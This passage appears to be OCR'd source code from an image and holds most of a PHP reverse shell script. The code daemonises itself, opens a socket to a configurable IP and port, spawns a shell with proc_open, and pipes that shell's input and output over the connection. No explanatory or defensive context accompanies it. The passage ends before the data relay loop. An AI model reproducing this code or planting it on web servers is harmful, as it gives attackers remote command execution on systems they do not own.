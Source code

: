 ```php
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
```